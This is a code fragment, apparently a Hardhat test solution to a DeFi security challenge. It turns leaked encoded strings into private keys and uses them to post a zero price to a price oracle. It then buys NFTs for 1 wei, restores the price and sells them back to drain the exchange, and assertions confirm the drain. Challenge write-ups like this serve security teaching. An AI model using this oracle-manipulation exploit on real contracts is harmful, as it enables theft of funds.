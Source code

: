 ```ts
      .map(raw => Buffer.from(raw.split(' ').join(''), 'hex').toString('utf-8')) // eliminate spaces, convert to base64
      .map(b64 => Buffer.from(b64, 'base64').toString('utf-8')); // convert to utf8

    // create wallets from the private keys
    const sourceAccounts = decodedData.map(key => new ethers.Wallet(key, attacker.provider));

    // confirm that the created accounts belong to sources
    for (const account of sourceAccounts) {
      expect(SOURCE_ADDRESSES).to.include(account.address);
    }

    // now, we can set the price to anything we like, and commence our attack
    // for good measure, lets set it to be 0
    // since we have 2/3 of oracles, this will set the median price to 0
    for (const account of sourceAccounts) {
      await oracle.connect(account).postPrice(NFT_SYMBOL, 0);
    }

    // now, we will buy 10 NFTs for 1 wei, basically for free
    // we cant use 0 because it will revert due to a requirement in there
    const tokenIds: BigNumber[] = [];
    for (let i = 0; i < 10; ++i) {
      await expect(exchange.connect(attacker).buyOne({value: 1}))
        .to.emit(exchange, 'TokenBought') // check for event to record the tokenId
        .withArgs(attacker.address, (id: BigNumber) => tokenIds.push(id), 0);
    }

    // then, we will set the price back to the initial price, so that it stays the same
    for (const account of sourceAccounts) {
      await oracle.connect(account).postPrice(NFT_SYMBOL, INITIAL_NFT_PRICE);
    }

    // finally, we will sell our NFTs for the initial price
    // this drains the exchange, if you do the math
    for (const tokenId of tokenIds) {
      await nftToken.connect(attacker).approve(exchange.address, tokenId);
      await exchange.connect(attacker).sellOne(tokenId);
    }
  });

  after(async () => {
    // exchange must have lost all ETH
    expect(await ethers.provider.getBalance(exchange.address)).to.be.eq(0);

    // attacker's ETH balance must have significantly increased
    expect(await ethers.provider.getBalance(attacker.address)).to.be.gt(EXCHANGE_INITIAL_ETH_BALANCE);

    // attacker must not own any NFT
    expect(await nftToken.balanceOf(attacker.address)).to.be.eq(0);

    // NFT price shouldn't have changed
    expect(await oracle.getMedianPrice(NFT_SYMBOL)).to.eq(INITIAL_NFT_PRICE);
  });
});
```
